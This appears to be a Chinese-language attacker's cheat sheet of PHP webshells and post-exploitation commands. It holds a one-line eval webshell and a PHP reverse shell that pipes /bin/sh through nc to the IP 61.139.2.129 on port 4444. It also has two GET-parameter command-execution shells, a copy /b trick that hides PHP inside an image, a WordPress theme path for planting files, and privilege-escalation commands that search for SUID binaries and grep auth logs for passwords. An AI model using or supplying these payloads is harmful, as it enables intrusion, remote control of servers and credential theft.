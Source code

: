 ```
```
## 一句话木马
<?php @eval($_POST['attack']);?>

php ^657503
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 61.139.2.129 4444 >/tmp/f');?>

### 执行命令的

^8307dd

```
<?php system($_GET["cmd"]);?>
```

^3a4f50
easy-simple-php-webshell. php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

### 图片马
```
copy /b 1.jpg + 1.php muma.png
```
# wp主题路径
```
/wordpress/wp-content/themes/twentynineteen/文件名
```

# 提权
```
find / -perm -u=s -type f 2>/dev/null
查找sudo权限的命令

find / -user root -perm /4000

cat /var/log/auth* | grep -i pass
寻找登录的密码

find / -type f -name 文件名
找指定文件名
```
